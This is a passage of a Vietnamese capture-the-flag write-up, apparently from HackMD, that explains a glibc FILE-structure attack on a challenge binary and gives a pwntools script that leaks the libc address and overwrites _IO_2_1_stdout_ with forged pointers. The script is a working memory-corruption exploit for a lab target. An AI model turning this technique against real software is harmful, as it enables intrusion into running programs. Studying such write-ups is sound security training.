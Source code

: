 - nhưng trước hết ta cần overwrite ```struct_file``` của ```s``` để lệnh ghi của ta sẽ vào ```_IO_2_1_stdout_``` 

như ta thấy bây giờ nó đã được chuyển đổi thành `stdout` , nếu ta dùng option2 thì nó sẽ ghi vào `stdout`

![image](https://hackmd.io/_uploads/BkWT1lBDJe.png)

![image](https://hackmd.io/_uploads/SkmblgrDJg.png)

okay , cuối cùng là ta sẽ dùng payload ở trên để ghi đè struct của `stdout`


![image](https://hackmd.io/_uploads/SywXMxHDye.png)

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
#gdb.attach(p,gdbscript='''
#           b*0x0000000000401590
#           b*0x00000000004014A7
#           b*0x0000000000401532
#           ''')

payload = b"A"*0x28 + p64(0x1e1)
payload += p64(0xfbad2488) # flags
payload += p64(0x403f88) # read_ptr
payload += p64(0x403f88+8) # read_end
payload += p64(0x403f88) # read_base

input()
p.sendlineafter(b'Choice: ',b'1')
p.sendafter(b"What's your name: ",payload)

p.sendlineafter(b'Choice: ',b'3')

p.recvuntil(b'ce:')
p.recvline()
libc.address = u64(p.recvline()[:-1].ljust(8,b'\x00')) - libc.sym.puts
log.info(f'libc: {hex(libc.address)}')


# write to _IO_2_1_stdout

payload2 = b"A"*0x208 + p64(0x1e1)
payload2 += p64(0xfbad2c84) # flags
payload2 += p64(0) * 3 # read_ptr, read_end, read_base
payload2 += p64(libc.sym._IO_2_1_stdout_) # write_base
payload2 += p64(libc.sym._IO_2_1_stdout_) # write_ptr
payload2 += p64(libc.sym._IO_2_1_stdout_+0x100) # write_end
payload2 += p64(libc.sym._IO_2_1_stdout_) # buf_base
payload2 += p64(libc.sym._IO_2_1_stdout_+0x100) # buf_end

p.sendlineafter(b'Choice: ',b'1')
p.sendlineafter(b'name: ',payload2)
```